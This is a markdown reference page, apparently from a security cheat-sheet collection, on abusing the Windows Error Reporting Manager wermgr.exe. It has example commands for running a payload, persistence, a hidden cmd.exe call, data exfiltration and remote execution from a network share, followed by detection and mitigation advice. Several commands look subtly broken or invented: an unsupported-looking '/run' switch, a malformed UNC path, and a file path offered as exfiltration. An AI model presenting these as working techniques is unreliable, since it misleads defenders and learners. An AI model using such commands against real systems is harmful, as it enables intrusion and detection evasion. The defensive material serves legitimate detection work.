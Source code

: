 # wermgr.exe
## What is it?
*```wermgr.exe``` is the Windows Error Reporting Manager, a system process that handles the collection and submission of error reports to Microsoft when a program crashes or encounters a fault.*

*It is part of the Windows operating system, designed to help diagnose and resolve software issues by sending error data to Microsoft.*

*While legitimate in nature, attackers can misuse ```wermgr.exe``` to evade detection or to launch malicious payloads under the guise of a trusted system process.*

## Legitimate Usage
- **Error Reporting** → Collects error data when applications crash or encounter unexpected issues and sends it to Microsoft for troubleshooting.
- **Application Diagnostics** → Helps system administrators and support teams gather error logs for diagnosing application failures.
- **System Stability Improvement** → Allows Microsoft to gather information that helps improve the stability of Windows and installed software.

## How to abuse it
- **Bypassing Security Controls** → Attackers can invoke ```wermgr.exe``` to execute malicious code under the guise of a legitimate system process.
- **Persistence** → Attackers can use ```wermgr.exe``` to maintain access to a system by invoking it with malicious payloads through error reporting.
- **Evasion of Detection** → Since ```wermgr.exe``` is a trusted Windows process, its execution is often overlooked by security tools, making it useful for evading detection.
- **Exfiltration via Error Reports** → Malicious actors could exploit the error reporting system to exfiltrate sensitive data by embedding it in error reports sent to Microsoft.

## Example attacks
### 1. Using wermgr.exe for Payload Execution
*Attackers can use ```wermgr.exe``` to execute malicious code disguised as part of the error reporting process.*

**Invoke Malicious Payload Using wermgr.exe**

```
wermgr.exe /run C:\malicious\payload.exe
```

**Effect:**
- Executes the malicious payload while appearing as a legitimate process to security tools.

### 2. Exploiting Error Reporting for Persistence
*An attacker may create a custom error report that, upon execution by ```wermgr.exe```, ensures that malicious code is run repeatedly.*

**Create a Malicious Error Report to Trigger wermgr.exe**

```
wermgr.exe /run C:\malicious\error_report.xml
```

**Effect:**
- Executes malicious code contained within the error report each time the system experiences an issue, ensuring persistence.

### 3. Evasion by Leveraging Legitimate Tools
*Because ```wermgr.exe``` is often trusted by security software, attackers can exploit it to bypass security measures like AppLocker or antivirus detection.*

**Invoke wermgr.exe to Launch a Hidden Command**

```
wermgr.exe /run cmd.exe /c "echo Malicious command"
```

**Effect:**
- Executes the command using ```wermgr.exe``` to bypass security measures while hiding the true intent behind a trusted process.

### 4. Exfiltration of Data via Error Reports
*Attackers can use the error reporting functionality to exfiltrate sensitive information by embedding it in error reports sent to Microsoft.*

**Embed Exfiltrated Data in Error Report**

```
wermgr.exe /run C:\exfil\file.txt
```

**Effect:**
- Uses error reporting as a method to silently exfiltrate sensitive data from the compromised system, potentially without detection.

### 5. Leveraging wermgr.exe for Remote Command Execution
*Attackers can remotely invoke ```wermgr.exe``` to execute commands on a compromised system.*

**Execute Remote Command Using wermgr.exe**

```
wermgr.exe /run \192.168.1.50\c$\Windows\System32\cmd.exe
```

**Effect:**
- Uses ```wermgr.exe``` to run commands remotely, potentially on a target system, under the appearance of a legitimate Windows process.

# Detection & Mitigation
## Detection Methods
**Monitor Execution of wermgr.exe**
- **Event ID 4688 (Process Creation)** → Detect the execution of ```wermgr.exe``` with unusual or suspicious command-line arguments.
- **Behavioral Analysis** → Look for attempts to execute other processes or payloads through ```wermgr.exe```.

**Network Traffic Analysis**
- **Analyze Error Report Submissions** → Check for abnormal or unexpected error report submissions from systems that may indicate data exfiltration or exploitation.
- **Monitor for Suspicious Error Report Content** → Look for unexpected files or payloads being transferred via error reporting channels.

**File Integrity Monitoring**
- **Monitor for Unexpected Error Report Files** → Track changes to or creation of error report files that are linked to malicious activity or unexpected behavior.

## Mitigation Strategies
- **Restrict the Use of wermgr.exe** → Limit the execution of ```wermgr.exe``` through Application Control (e.g., AppLocker, WDAC) to only authorized and trusted systems or users.
- **Disable Error Reporting** → Disable or restrict error reporting functionality if it is not needed in an environment to prevent it from being exploited.
- **Monitor Error Reporting Logs** → Regularly audit error report logs for unusual or suspicious entries that might indicate malicious activity.
- **Use Endpoint Detection and Response (EDR)** → Leverage EDR tools to detect malicious activity originating from legitimate system processes like ```wermgr.exe```.

